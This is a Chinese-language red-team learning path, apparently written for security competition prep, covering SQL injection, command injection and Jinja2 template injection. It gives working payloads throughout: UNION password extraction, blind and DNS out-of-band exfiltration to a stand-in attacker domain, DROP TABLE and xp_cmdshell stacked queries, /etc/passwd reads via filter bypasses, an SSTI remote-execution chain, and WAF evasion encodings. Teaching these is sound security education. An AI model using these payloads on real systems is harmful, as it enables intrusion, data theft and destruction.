

# 💉 直譯器與語法樹注入深度學習路徑 (SQLi, Command Injection, SSTI)
> 對應紅隊作戰矩陣：**Phase 2 (R10)** (R10.1 ~ R10.3)  
> 預計總投入時間：**30 ~ 35 小時**（視資料庫 SQL、OS Shell 與模板引擎語法基礎而定）

---

## 📍 你在哪裡、去哪裡

```
你現在的狀態                         這份路徑帶你到達的位置
──────────────────                   ────────────────────────────
依賴 sqlmap 自動化工具跑注入 ──►     精通 AST 抽象語法樹結構破壞與手動構造盲注 Payload
命令注入遇到空白就卡死       ──►     精通環境變數混淆、IFS 與萬用字元無字元 RCE
模板注入只會測 {{7*7}}       ──►     精通 Python MRO 類別繼承鏈遍歷與沙盒逃逸 RCE
```

---

## 🧱 第零關：先確認你有這些基礎

| 概念 | 需要了解到的程度 | 快速補充資源 |
|------|-----------------|-------------|
| SQL 關聯查詢與語法樹 (AST) | 理解 Lexer/Parser 詞法語法分析與 SQL 解釋器原理 | [SQLite 官方語法解析器文檔](https://www.sqlite.org/draft/tokenreq.html) |
| Linux/Windows Shell 語義 | 理解管道符 `|`, 重定向 `>`, 子命令替換 `$(...)` 與環境變數 | [Bash Reference Manual](https://www.gnu.org/software/bash/manual/) |
| 物件導向與原型/繼承鏈 | 理解 Python `__mro__` / `__subclasses__()` 與 JavaScript 原型鏈 | [Python Data Model](https://docs.python.org/3/reference/datamodel.html) |

---

## 🗺️ 整體學習地圖（五個階段）

```
階段一 ──────► 階段二 ──────► 階段三 ──────► 階段四 ──────► 階段五
SQL語法樹破壞  盲注與外帶     OS命令直譯突破  SSTI模板沙盒逃逸 WAF編碼繞過
(8h)           (6h)           (8h)           (8h)           (5h)
```

---

## 🏛️ 階段一：SQL 查詢語法樹破壞與注入利用（約 8 小時）

### 1.1 AST (抽象語法樹) 的物理破壞本質
SQL 注入的本質並非單純字串拼接，而是**利用未過濾的字元閉合原有資料節點，注入新的「運算子 (Operator)」或「邏輯子節點」，使得直譯器將使用者輸入當作程式碼執行**。
- **UNION-based 注入**：要求欄位數量與型別 100% 嚴格對齊：
  ```sql
  ' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema=database()-- -
  ```

---

### 1.2 SQLi 深入筆記（自 R10.1 作戰手冊移入）

#### 0. 戰術思維破局：為什麼不永遠都用 UNION？（攻擊手法決策樹）

很多初學者常問：「既然 `UNION SELECT` 這麼好用，為什麼還要搞那些複雜的報錯注入、布林盲注、時間盲注？」

> 💡 **核心殘酷現實**：**如果能用 `UNION`，沒有攻擊者會想用盲注！**  
> `UNION` 必須建立在一個極度嚴格的前提：**後端必須把資料庫查詢結果，原封不動印在前端網頁上（稱為「回顯 (Echo)」）**。  
> 當後端只回傳「帳密錯誤」、「登入成功」或「HTTP 200/500」時，`UNION` 查出來的資料根本無處可印，攻擊者只能依據伺服器的微弱反饋（錯誤訊息、狀態真偽、時間延遲）來「猜」出資料！



---

#### 0.1 UNION 注入的兩大物理鐵律與「ORDER BY 測欄位」SOP

為什麼初學者直接打 `' UNION SELECT * FROM users` 會直接噴 **HTTP 500 內部伺服器錯誤**？因為 `UNION` 語法在 RDBMS 資料庫引擎內有兩條不可違背的物理鐵律：

##### 🚨 鐵律一：兩邊查詢的「欄位數量必須完全相等」
* **物理本質**：`UNION` 的作用是將兩個查詢結果在資料結構上進行「垂直疊加」。
* **衝突成因**：如果原本的查詢只查了 8 個欄位（例如商品的 `id, name, desc, price...`），而你寫了 `SELECT * FROM users`（假設 `users` 表有 3 個欄位），8 個欄位疊加 3 個欄位，資料庫不知道多出來的欄位該怎麼排，直接拋出語法異常（在 Web 伺服器端體現為 **HTTP 500 錯誤**）！

##### 🚨 鐵律二：對應位置的「資料型態必須相容」
* **物理本質**：如果原本查詢的第 1 欄是整數（`id INT`），而你的第二個查詢第 1 欄硬塞字串（`username VARCHAR`），資料庫無法進行隱式型態轉換時，同樣直接拋出 500 報錯拒絕執行！

##### 🚨 鐵律三：必須有「註解符號」截斷後方原始語句
* **衝突成因**：若不加註解（`-- ` 或 `#`），後端原本 SQL 結尾的單引號或附加條件（如 `' AND active=1`）會殘留在末端，導致 SQL 語法結構不完整而引發 500 錯誤！

---

#### 🛠️ UNION 實戰四步作戰 SOP（PortSwigger 必備實操流程）

```text
【步驟 1：測欄位數】       【步驟 2：NULL 驗證】          【步驟 3：測文字回顯欄位】        【步驟 4：精準提取目標】
' ORDER BY 1-- (200)   ➔  ' UNION SELECT             ➔  ' UNION SELECT            ➔  ' UNION SELECT 
' ORDER BY 8-- (200)      NULL,NULL,NULL...-- (200)     NULL,'test',NULL...--        NULL,password,NULL...--
' ORDER BY 9-- (500)      (確認剛好 8 個欄位)            (確認哪一欄能印出字串)         FROM users WHERE ...
(得知總共有 8 欄！)
```

1. **第一步：用 `ORDER BY` 測出總欄位數**：
   - 注入 `' ORDER BY 1--`，逐漸把數字加乘（1, 2, 3...）。
   - 當測到某數字（例如 9）頁面突然從 200 變成 500 報錯時，代表**上一數字（8）即為真實的欄位總數**！
2. **第二步：用全 `NULL` 做型態中立驗證**：
   - 構造對應數量之 `NULL` 欄位（因為 `NULL` 能相容任何資料型態）：
     `' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--`
   - 頁面若恢復 HTTP 200，100% 證明欄位數量完全吻合！
3. **第三步：逐欄測試「字串 (String) 接收與回顯位置」**：
   - 依序將其中一個 `NULL` 替換為字串 `'a'`：
     `' UNION SELECT 'a', NULL, NULL...--` ➔ 噴 500 表示該欄位為數字型態。
     `' UNION SELECT NULL, 'a', NULL...--` ➔ 正常 200 且網頁印出 `a`，表示**第 2 欄為文字回顯欄位**！
4. **第四步：填入目標資料表與欄位萃取**：
   - 將目標欄位放入可回顯之位置：
     `' UNION SELECT NULL, password, NULL... FROM users--`
   - 若欲同時提取多個欄位，可利用字串串接（如 PG/Oracle 用 `username || '~' || password`，MySQL 用 `CONCAT(username, '~', password)`）。

---

#### 1. 什麼是「頻寬與吞吐特徵 (Bandwidth & Throughput)」？

手冊中所稱的頻寬，**不是網路卡的速度**，而是指：  
👉 **「攻擊者每發送 1 次 HTTP 請求，能從受害資料庫偷出多少有效資訊量？」**

* **UNION 注入（5G 光纖）**：發送 **1 次** 請求，整張資料表或長密碼一次性在畫面顯示。
* **Error-based 報錯（4G 行動網路）**：發送 **1 次** 請求，受限於錯誤字串長度上限，一次約吐出 32～64 字元。
* **Boolean Blind（電報機 1 bit/次）**：畫面只有 True 與 False。猜 1 個英文字母需要發送約 **7 次** 請求（以二分搜尋問：`ASCII > 64?` ➔ `ASCII > 96?`...）。偷 20 字元的密碼需發送 **140 次** 請求。
* **Time-based Blind（敲牆壁打信號）**：畫面完全無變化，只能靠 `sleep(5)` 當暗號。猜錯立刻回傳，猜對等 5 秒。偷 20 字元的密碼可能需要**耗時數分鐘**。

---

#### 2. 四大主流關聯式資料庫 (RDBMS) 核心考點對比表

| 資料庫類型 | 核心時間延遲函數 (初賽必背) | 字串連接語法 | 版本查詢函數 | 註解符號 |
| :--- | :--- | :--- | :--- | :--- |
| **MySQL / MariaDB** | `SLEEP(5)`<br>`BENCHMARK(5000000, MD5(1))` | `CONCAT('a', 'b')` | `VERSION()` 或 `@@VERSION` | `-- ` (需空格)、`#`、`/*...*/` |
| **Microsoft SQL Server (MSSQL)** | `WAITFOR DELAY '0:0:5'` | `'a' + 'b'` | `@@VERSION` | `--`、`/*...*/` |
| **PostgreSQL** | `pg_sleep(5)` | `'a' \|\| 'b'` | `VERSION()` | `--`、`/*...*/` |
| **Oracle** | `dbms_pipe.receive_message('RDS', 5)` | `'a' \|\| 'b'` | `banner FROM v$version` | `--` (不支援單行 `#`) |

---

#### 3. 寬字節注入 (Wide-Byte Injection) 物理逃逸成因

* **成因背景**：後端使用了 GBK / BIG5 等**雙位元組（雙字節）編碼**，且後端透過 `addslashes()` 或 `magic_quotes_gpc` 對單引號 `'` 自動跳脫轉義為 `\'`。
* **物理逃逸過程**：
  1. 攻擊者傳入 `%df'`。
  2. 後端在單引號 `'` (`%27`) 前強制補上反斜線 `\` (`%5c`)，字串在記憶體中變成：`%df%5c%27`。
  3. 資料庫以 GBK 編碼解析時，判定 `%df%5c` 符合雙位元組高位範圍，將其合體解碼為單一中文字（漢字「**運**」）。
  4. 原本用於轉義的反斜線被吃掉，後面的單引號 `%27` (`'`) 孤立脫穎而出，**成功閉合 SQL 語法邊界**！

---

#### 5. 破除單一盲點：SQL 注入的五大完整維度地圖

若僅從「資料怎麼拿出來（回顯管道）」看 SQL 注入，考試考到其他角度就會漏看陷阱！完整的 SQL 注入分類包含五大維度：

```text
                                  ┌── 1. 回顯管道: UNION / Error / Boolean / Time / OOB (如上表)
                                  ├── 2. 語法位置: SELECT / INSERT / UPDATE / ORDER BY (★大考點)
SQL 注入的 5 個切入維度 ─────────┼── 3. 觸發時機: 一階注入 (當場) vs 二階注入 (後續業務撈出觸發，★大考點)
                                  ├── 4. 閉合型態: 整數型 (無引號) vs 字串型 vs LIKE 搜尋型
                                  └── 5. 語句連鎖: 單條語句 vs 堆疊查詢 (Stacked Queries)
```

##### 維度二：注入點出現在 SQL 語句的哪個位置？
1. **`ORDER BY` 注入（初賽超級大考點 ★★★）**：
   - **為什麼不能用預編譯（參數化查詢）防禦？**  
     SQL 標準規定，**欄位名稱、資料表名稱、排序方向關鍵字（`ASC`/`DESC`）不能當作 `?` 參數占位符**！開發者若直接字串拼接 `ORDER BY $col` 就會破防。**唯有在後端使用白名單映射 (Whitelist Mapping) 才能根本防禦！**
   - **為什麼不能用 UNION？**  
     `ORDER BY` 位處 SQL 語句最末端，後方無法直接銜接 `UNION SELECT`（語法解析錯誤）。因此遇到 `ORDER BY` 注入，**通常只能退而求其次使用報錯注入或布林/時間盲注**！
2. **`INSERT` / `UPDATE` 注入**：
   - 發生在使用者註冊個人資料、修改信箱密碼等寫入情境。
   - 風險在於攻擊者可透過注入欄位（如 `, role='admin'`）直接將低權限帳號竄改提升為最高管理者。

##### 維度三：觸發時機（一階 vs 二階）
1. **一階注入 (First-Order)**：輸入 Payload ➔ 當場拼接 ➔ 當場執行 ➔ 當場回傳（常規注入）。
2. **二階注入 (Second-Order，初賽必背 ★★★)**：
   - **第一階段（潛伏儲存）**：攻擊者註冊一個名字叫 `admin'--` 的帳號。因為後端用了轉義，安全存入資料庫，**邊界 WAF 完全不會攔截**。
   - **第二階段（二次讀取引爆）**：後續其他功能（如修改密碼）從資料庫撈出此帳號，拼裝到另一條語句 `UPDATE users SET pass='123' WHERE user='$username'` 時才爆炸，直接改掉管理員 `admin` 的密碼！
   - **秒殺題眼**：題目只要出現**「惡意資料被安全儲存於系統中，待後續其他業務模組讀取時才觸發」** ➔ **秒選「二階注入 (Second-Order SQLi)」**！

##### 維度四：引號閉合方式（整數型 vs 字串型）
1. **整數型注入 (Numeric Context)**：
   - 語法：`SELECT * FROM news WHERE id = 1`（後端原本就沒寫引號）。
   - **考點**：工程師以為只要「過濾單引號」就安全，但整數型注入**根本不需要單引號**！直接帶入算式 `id = 1 OR 1=1` 即直接破防。
2. **字串型注入 (String Context)**：
   - 語法：`WHERE user = 'admin'`，必須先閉合單引號 `'` 或雙引號 `"`，再以註解符號（`-- `、`#`）截斷後續語法。
3. **搜尋型注入 (LIKE Context)**：
   - 語法：`WHERE title LIKE '%[輸入]%'`，需以 `%' OR 1=1 AND '%'='` 閉合前後的萬用字元 `%`。

##### 維度五：語句連鎖能力（堆疊查詢 Stacked Queries）
* 在支援分號 `;` 分隔多條 SQL 的環境（如 **MSSQL**、PostgreSQL），攻擊者可在查完第一句後，連鎖執行完全獨立的第二條指令：`SELECT * FROM items; DROP TABLE logs;--`。
* 在 MSSQL 中可藉由堆疊查詢啟用 `xp_cmdshell` 直接取得作業系統控制權 (RCE)。

---

#### ⚡ 隊員 A 金盾獎 3 大秒殺金牌公式

| 題目出現特徵描述 | 標準正解直覺反射 |
| :--- | :--- |
| **「過濾了單引號，卻依然能觸發的 SQL 注入」** | ➔ **整數型注入 (Numeric Context)** |
| **「參數化查詢 (Prepared Statements) 無法直接作為占位符防禦」** | ➔ **`ORDER BY` 排序欄位 / 資料表名稱**（必須靠白名單防禦） |
| **「儲存時安全未引發告警，待後續業務流程讀取重拼時才引爆」** | ➔ **二階注入 (Second-Order SQLi)** |

---

---

## ⏱️ 階段二：布林與時間盲注以及 DNS 外帶 (OOB)（約 6 小時）

### 2.1 時間盲注與外帶技巧
當頁面完全無回顯且無報錯時，使用條件分支結合 `pg_sleep()` / `WAITFOR DELAY` 進行逐字元萃取：
```sql
# PostgreSQL 時間盲注驗證資料庫使用者第一位字元
'; SELECT CASE WHEN (ASCII(SUBSTRING(user,1,1))=112) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

### 2.2 DNS 帶外 (Out-of-Band) 高速提取
利用資料庫伺服器發起 DNS 查詢（如 MSSQL `xp_dirtree` 或 MySQL `LOAD_FILE()`）：
```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker-oob.com\\a'));
```

---

## ⚡ 階段三：作業系統命令直譯器注入突破 (Command Injection)（約 8 小時）

### 3.1 限制字元條件下的繞過藝術
當 WAF 嚴格過濾空白字元、斜線 `/` 或特定關鍵字時：
- **空白替代**：`${IFS}`、`$IFS$9`、`{cat,/etc/passwd}`、`bash<<<id`。
- **字串拼接混淆**：
  ```bash
  # 利用引號或變數拼接繞過關鍵字檢測
  w'h'o'a'm'i
  $u /etc/passwd  # 其中 $u 被定義為 cat
  ```
- **萬用字元匹配**：
  ```bash
  # 免直接出現字母執行 /bin/cat /etc/passwd
  /???/?[a-z] /???/p*d
  ```

---

## 🧪 階段四：伺服器端模板引擎表示式注入 (SSTI)（約 8 小時）

### 4.1 Python Jinja2 沙盒逃逸與 MRO 繼承鏈
當使用者輸入被帶入 `render_template_string()` 時觸發：
```python
# 1. 識別注入點並回顯
{{ 7 * 7 }}  # 回顯 49

# 2. 獲取 object 基類
{{ ''.__class__.__mro__[1] }}

# 3. 遍歷全系統子類別並調用 subprocess.Popen 或 os._wrap_close
{{ ''.__class__.__mro__[1].__subclasses__()[133]('id',shell=True,stdout=-1).communicate()[0] }}
```

---

## 🥷 階段五：WAF 編碼規避與藍隊防護繞過（約 5 小時）

### 5.1 語法異構與編碼混淆表
- **URL 雙重編碼**：`%2527` 繞過單層解碼代理。
- **註解字元插入**：`UN/**/ION/**/SEL/**/ECT` 破壞 WAF 正規表達式特徵比對。
- **JSON / Unicode 逃逸**：`\u0027` 在 JSON API 中被後端正確解析為單引號。

---

## ✅ 本路徑通過檢查表（Checklist）

- [ ] 能清楚說明 SQL 語法解析器 (Parser) 在遇見注入時語法樹的結構變化。
- [ ] 掌握不用任何空白字元在 Linux 終端執行任意命令的技巧。
- [ ] 能獨立構造 Python Jinja2 與 PHP Twig 的 SSTI 沙盒逃逸 Payload。
- [ ] 能使用 OOB DNS 解決無回顯盲注環境的資料快速萃取。
- [ ] 掌握至少 4 種規避傳統 WAF 靜態特徵碼的編碼變形策略。
